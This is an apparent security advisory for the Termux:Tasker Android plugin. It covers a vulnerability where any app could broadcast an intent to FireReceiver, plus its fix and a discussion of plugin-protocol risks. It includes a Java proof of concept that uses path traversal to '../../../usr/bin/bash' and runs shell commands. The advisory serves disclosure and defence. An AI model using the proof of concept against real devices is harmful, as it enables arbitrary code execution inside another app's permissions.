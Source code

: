 ### 1. Proof Of Concept

```java
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", "-c \"echo -n 'I am '; whoami; echo 'creating exploit-file'; touch exploit-file; echo 'finding exploit-file'; find . -name exploit-file 2>/dev/null; sleep 5;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```

### 1. Fix

1. To send an intent to `FireReceiver` now [requires `com.termux.permission.RUN_COMMAND`](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/AndroidManifest.xml#L45), a `dangerous` runtime permission, to be granted to the calling app, which was [published by Termux app](https://github.com/termux/termux-app/blob/v0.118.0/app/src/main/AndroidManifest.xml#L16). The Tasker app already had requested the permission since `v5.9.3` for [`RUN_COMMAND` intent](https://github.com/termux/termux-app/wiki/RUN_COMMAND-Intent) before the `v0.5` release but other automation apps would have had to request the permission in later versions. ([`26da42f7`](https://github.com/termux/termux-tasker/commit/26da42f7))

2. The canonical path of the executable received by `FireReceiver` was [found](https://github.com/termux/termux-tasker/blob/v0.5/app/src/main/java/com/termux/tasker/FireReceiver.java#L70) before it was processed. The `v0.5` release officially added support to allow executables outside the `~/.termux/tasker` directory, but only if user had explicitly added `allow-external-apps=true` to `~/.termux/termux.properties`. ([`a5af3db3`](https://github.com/termux/termux-tasker/commit/a5af3db3))

This dual permission model enforced by android os permission and an app setting for absolute paths provides reasonable security against any arbitrary code execution or privilege escalation unless users grant the permission to untrusted apps.

Check `Termux:Tasker` [`README`](https://github.com/termux/termux-tasker#setup-instructions) for more details on new design.

### 1. Discussion

This kind of vulnerability partly existed because **any app can send intents to plugin apps** of automation apps like `Tasker`. The `Tasker` app and the [`locale`](https://github.com/twofortyfouram/android-monorepo) plugin protocol library it uses were created around `2008`. At that time runtime permissions didn't exist and security and possible dangerous uses of plugins may not have been a top priority/concern. However, it is indeed especially concerning for plugin apps that are granted privileged permissions like device admin/owner and accessibility services or even storage, location, etc. For example the [`SecureTask`](https://play.google.com/store/apps/details?id=com.balda.securetask) plugin needs to be set as device admin or even owner for a lot of its features. If a user has installed the app on their phone and have granted the device admin permission to `SecureTask`, any app could send intents to it directly without going through Tasker to run privileged commands, including **wiping the device**.
